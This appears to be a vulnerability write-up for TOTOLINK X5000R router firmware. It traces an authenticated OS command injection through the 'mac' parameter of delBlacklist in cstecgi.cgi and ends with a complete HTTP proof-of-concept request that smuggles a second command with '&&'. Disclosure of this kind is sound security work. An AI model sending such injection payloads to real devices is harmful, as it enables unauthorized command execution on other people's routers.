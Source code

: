 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `delBlacklist`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `delBlacklist`(at 0x4125FC) of binary /cgi-bin/cstecgi.cgi. The parameter `mac` is passed to `uci_del_List` without any check.
![delBlacklist](image.png)
uci_del_List passes the parameter `mac` as the fourth argument, which is in libcscommon.so.It can be observed that uci_del_List calls snprintf to format our param_4 into the string "uci -c %s del_list %s.%s.%s=\"%s\ ..." and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 167
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "delBlacklist", "mac": "a&&wzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa"}
```

![alt text](image-3.png)
